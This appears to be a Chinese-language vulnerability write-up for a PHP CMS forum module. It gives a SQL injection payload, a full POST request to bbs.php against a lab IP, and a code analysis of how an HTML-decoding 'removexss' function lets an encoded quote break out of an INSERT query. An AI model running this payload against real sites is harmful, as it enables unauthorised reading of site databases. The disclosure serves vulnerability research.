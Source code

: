 0x01前言
------

看到以前的版本爆了挺多洞的，想看看这个新版本还有没有漏洞给我捡一下，结果还真捡到，然后分享一下给大家。

0x02 payload复现
--------------

payload(单引号要htmlencode)：

```sql
','2021-08-21 17:17:29',21,1,1),('exp',(database()),'2021-08-21 17:17:29',21,1,1)#

```

数据包：

```php
POST /bbs/bbs.php?action=add HTTP/1.1
Host: 172.20.10.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 304
Origin: http://172.20.10.8
DNT: 1
Connection: keep-alive
Referer: http://172.20.10.8/bbs/bbs.php?S_id=1
Cookie: PHPSESSID=rkb7d7qf44jan12nbq3vjf07nb; Hm_lvt_b60316de6009d5654de7312f772162be=1629536828; Hm_lpvt_b60316de6009d5654de7312f772162be=1629536867; CmsCode=b4ia
Upgrade-Insecure-Requests: 1

B_title=aaa&B_sort=1&B_content=%3Cp%3E%26%2339%3B%2C%26%2339%3B2021-08-21+17%3A17%3A29%26%2339%3B%2C21%2C1%2C1%29%2C%28%26%2339%3Bexp%26%2339%3B%2C%28database%28%29%29%2C%26%2339%3B2021-08-21+17%3A17%3A29%26%2339%3B%2C21%2C1%2C1%29%23%3C%2Fp%3E&code=09a7r7WJR1biC4zstFVg8TZGumpKbxfBC4MObWBIzvfDWoDFaSAavw
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-32dbd956031984cca0899a628e955d3215f28281.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-32dbd956031984cca0899a628e955d3215f28281.png)

0x03分析
------

在/function/function.php文件中,通过inject\_check方法对post传参进行了全局的sql注入过滤  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-792772fb0d1660d6f7baf23f650db9eeecbb3c01.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-792772fb0d1660d6f7baf23f650db9eeecbb3c01.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-04c03b2a404444a3dfde471207fb2f1dee0d0dbd.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-04c03b2a404444a3dfde471207fb2f1dee0d0dbd.png)  
而在9-25行中，又对传参进行了转义  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-105127a18829df21dc8b9df6971b9bd5cf5481b0.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-105127a18829df21dc8b9df6971b9bd5cf5481b0.png)  
正常来说，这样已经是写死的了，无法造成sql注入  
但是回到漏洞文件/bbs/bbs.php中  
在add方法里  
B\_content传参被带进了removexss方法中  
然后赋值$B\_content  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-83635868faf09cf2202cfd39eb2b4581b2e52064.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-83635868faf09cf2202cfd39eb2b4581b2e52064.png)  
跟入removexss方法里  
这行代码的意思就是将htmlencode的字符给decode了  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-e65568b7ff057988e73d503bf258e1ce0fad02d3.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-e65568b7ff057988e73d503bf258e1ce0fad02d3.png)  
当我传入`&#39;`时，它传入的内容decode为单引号  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-cf56ae19f18074a78fe4db73021785472b50e468.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-cf56ae19f18074a78fe4db73021785472b50e468.png)  
所以，当我们输入一个`&#39;`时就可以进行sql注入  
而该注入是insert注入  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5df7c5c283d184cab5c0dae113917881cf280579.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5df7c5c283d184cab5c0dae113917881cf280579.png)

```php
mysqli_query($conn, "insert into ".TABLE."bbs(B_title,B_content,B_time,B_mid,B_sort,B_sh) values('" . $B_title . "','" . $B_content . "','" . date('Y-m-d H:i:s') . "'," . $_SESSION["M_id"] . "," . $B_sort . "," . $B_sh . ")");
```

$B\_content是我们可控的，所以可以通过该sql语句直接构造出payload  
Payload(要对单引号进行htmlencode)：

```sql
','2021-08-21 17:17:29',21,1,1),('payload',(database()),'2021-08-21 17:17:29',21,1,1)#
```

我们最终去数据库中查询的语句是

```sql
insert into SL_bbs(B_title,B_content,B_time,B_mid,B_sort,B_sh) values('xxz','','2021-08-21 17:17:29',21,1,1),('payload',(database()),'2021-08-21 17:17:29',21,1,1)#','2021-08-21 17:17:29',21,1,1)
```